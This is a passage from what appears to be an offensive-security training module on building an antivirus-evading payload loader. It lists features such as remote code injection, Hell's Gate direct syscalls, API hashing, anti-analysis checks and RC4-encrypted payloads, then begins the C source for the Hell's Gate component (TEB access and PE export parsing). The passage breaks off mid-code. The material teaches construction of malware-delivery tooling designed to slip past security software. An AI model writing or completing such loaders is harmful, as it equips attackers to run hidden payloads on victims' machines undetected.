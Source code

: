 # 8.8 Bypassing-AVs

### Introduction

So far, numerous methods and techniques to create and execute a payload loader that can bypass a variety of software security programs have been demonstrated. This module will work to construct a feature-rich payload loader from the ground up to reinforce what has been taught in the previous modules.

Create an empty Visual Studio project and follow along to keep up with this module.

### Payload Loader Features

The implemented payload loader will have the following features:

- Remote code injection support
- Mapping injection using direct syscalls via Hell's Gate
- API Hashing
- Anti-Analysis functionality
- RC4 payload encryption
- Brute forcing the decryption key
- No CRT library imports

### Hell's Gate Setup

This loader utilizes payload injection via direct syscalls obtained using Hell's Gate. To begin, one must create `Structs.h`, `HellsGate.c` and `HellAsm.asm` files. These files include the necessary functions to execute direct syscalls. The `Structs.h` file is used to save Windows undocumented structures and is included in subsequent C files. It contains structure definitions such as `PEB`, `TEB`, and more, which are necessary for implementing Hell's Gate.

The `HellAsm.asm` file will be the same as the one from the [repository](https://github.com/am0nsec/HellsGate/blob/master/HellsGate/hellsgate.asm). As for `HellsGate.c`, it will have the following functions.

**HellsGate.c**

```c
#include <Windows.h>
#include "Structs.h"


PTEB RtlGetThreadEnvironmentBlock() {
#if _WIN64
	return (PTEB)__readgsqword(0x30);
#else
	return (PTEB)__readfsdword(0x16);
#endif
}


BOOL GetImageExportDirectory(PVOID pModuleBase, PIMAGE_EXPORT_DIRECTORY* ppImageExportDirectory) {
	// Get DOS header
	PIMAGE_DOS_HEADER pImageDosHeader = (PIMAGE_DOS_HEADER)pModuleBase;
	if (pImageDosHeader->e_magic != IMAGE_DOS_SIGNATURE) {
		return FALSE;
	}

	// Get NT headers
	PIMAGE_NT_HEADERS pImageNtHeaders = (PIMAGE_NT_HEADERS)((PBYTE)pModuleBase + pImageDosHeader->e_lfanew);
	if (pImageNtHeaders->Signature != IMAGE_NT_SIGNATURE) {
		return FALSE;
	}

```